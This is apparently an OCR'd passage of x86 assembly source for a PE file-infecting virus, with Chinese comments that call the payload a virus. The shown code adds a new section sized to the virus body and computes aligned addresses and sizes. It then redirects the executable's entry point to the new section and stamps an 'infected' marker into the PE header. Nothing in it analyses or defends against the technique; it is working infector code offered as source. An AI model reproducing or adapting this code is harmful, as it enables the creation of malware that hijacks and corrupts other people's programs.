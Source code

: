     lea edi, SectionTable[ebp]
    movzx eax, PEHead[ebp].FileHeader.NumberOfSections
    mov ecx, 28h
    mul ecx 
; eax中得到节表修改前大小。
    add edi, eax 
; edi存放添加节的开始地址。
    inc PEHead[ebp].FileHeader.NumberOfSections ; 添加一个节

    mov eax, [edi - 28h + 8h] ; 前一节长
    add eax, [edi - 28h + 0ch] ; 前一节RVA
    mov ecx, PEHead[ebp].OptionalHeader.SectionAlignment ; 节的对齐值
    div ecx
    inc eax
    mul ecx
    mov NewSection[ebp].VirtualAddress, eax ; 对齐的新节虚拟地址

    mov eax, VirusLength[ebp] ; 病毒长度
    mov ecx, PEHead[ebp].OptionalHeader.FileAlignment ; 文件的对齐值
    div ecx
    inc eax
    mul ecx
    mov NewSection[ebp].RawSize, eax ; 对齐的新节物理大小

    mov eax, VirusLength[ebp] ; 病毒长度
    mov NewSection[ebp].VirtualSize, eax ; 新节虚拟长度 = 病毒长度

    mov eax, [edi - 28h + 14h] ; 前一节物理偏移
    add eax, [edi - 28h + 10h] ; 前一节物理长度
    mov ecx, PEHead[ebp].OptionalHeader.FileAlignment ; 文件的对齐值
    div ecx
    inc eax
    mul ecx
    mov NewSection[ebp].RawOffset, eax ; 对齐的新节物理偏移

    mov eax, NewSection[ebp].VirtualSize ; 新节虚拟长度
    add eax, PEHead[ebp].OptionalHeader.SizeOfImage ; 加上原文件虚拟长度
    mov ecx, PEHead[ebp].OptionalHeader.SectionAlignment ; 节的对齐值
    div ecx
    inc eax
    mul ecx
    mov PEHead[ebp].OptionalHeader.SizeOfImage, eax ; 新的文件虚拟长度
; 之前的修改都是在改NewSection[ebp]中的，别忘了拷回节表中。

    lea esi, NewSection[ebp]
    mov ecx, 28h
    rep movsb ; 从NewSection中拷到节表中

    mov eax, NewSection[ebp].VirtualAddress
    mov PEHead[ebp].OptionalHeader.AddressOfEntryPoint, eax ; 更新程序入口点

    mov WORD ptr PEHead[ebp + 1ah], 0C05h ; 加上已感染标志

    push FILE_BEGIN
    push 0h
    push PEAddress[ebp]
    push OpenHandle[ebp]
    call ZSetFilePointer ; 文件指针指向PE头处
